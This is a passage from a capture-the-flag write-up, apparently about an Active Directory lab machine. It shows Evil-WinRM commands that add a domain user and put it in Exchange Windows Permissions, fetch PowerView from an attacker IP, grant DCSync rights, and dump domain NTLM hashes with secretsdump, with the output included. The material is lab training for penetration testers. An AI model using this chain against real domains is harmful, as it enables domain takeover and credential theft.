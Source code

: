 ```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net user x hunter2 /add /dom
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions" /add x
The command completed successfully.

*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> net group "Exchange Windows Permissions"
Group name     Exchange Windows Permissions
Comment        This group contains Exchange servers that run Exchange cmdlets on behalf of users via the management service. Its members have permission to read and modify all Windows accounts and groups. This grou
p should not be deleted.

Members

-------------------------------------------------------------------------------
x
The command completed successfully.
```

Next, I'll work on adding the `DCSync` privilege. There are different ways to do this but I'll use PowerView.

Creating the PowerShell credential object:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $pass = convertto-securestring 'hunter2' -asplaintext -force
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> $cred = new-object system.management.automation.pscredential('htb\x', $pass)
```

Import PowerView:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> iwr 10.10.14.21/PowerView.ps1 -outfile pv.ps1
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> import-module ./pv.ps1
```

Adding `DCSync` rights:

```powershell
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents> add-domainobjectacl -credential $cred -targetidentity "DC=htb,DC=local" -principalidentity x -rights DCSync
```

Now I can dump the hashes and own the domain:

```console
$ impacket-secretsdump -just-dc x:hunter2@forest.htb
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
...
```
